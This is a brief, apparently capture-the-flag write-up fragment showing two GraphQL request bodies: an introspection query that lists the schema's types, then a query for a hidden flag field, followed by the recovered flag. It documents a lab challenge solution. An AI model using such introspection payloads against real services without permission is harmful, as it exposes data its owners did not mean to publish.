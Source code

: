```
id=1&data={"query":"query{\n  __schema {\n  types {\n name  \n }\n}\n}\n", "variables":null}
```

![图片-1665405825041](https://cdn.jsdelivr.net/gh/R3damancy1/blog-pic/202404161702655.png)

```
id=1&data={"query":"query{ffffllllaaagggg_1n_h3r3_flag {flag}}","variables":null}
```

```
flag{4a902c8e-a8b5-ecfb-bee3-d6419865647c}
```